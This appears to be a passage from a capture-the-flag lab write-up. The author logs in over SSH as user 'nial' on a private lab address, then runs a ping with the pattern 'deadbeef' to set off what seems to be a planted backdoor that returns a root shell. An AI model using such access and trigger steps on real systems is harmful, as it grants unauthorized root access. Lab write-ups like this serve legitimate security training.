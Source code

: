 For a minute I couldn't think of a username but then I realized that we want to be `nial` so maybe it's for that user.

```bash
ssh nial@192.168.100.1 -p 40447 -i /...
```

![](images/fugit3/ssh-nial.png)

Once I was `nial` all I had to do was run

```bash
ping -p deadbeef 127.0.0.1
```

and I got root shell.

![](images/fugit3/root-shell.png)

![](images/fugit3/root.png)
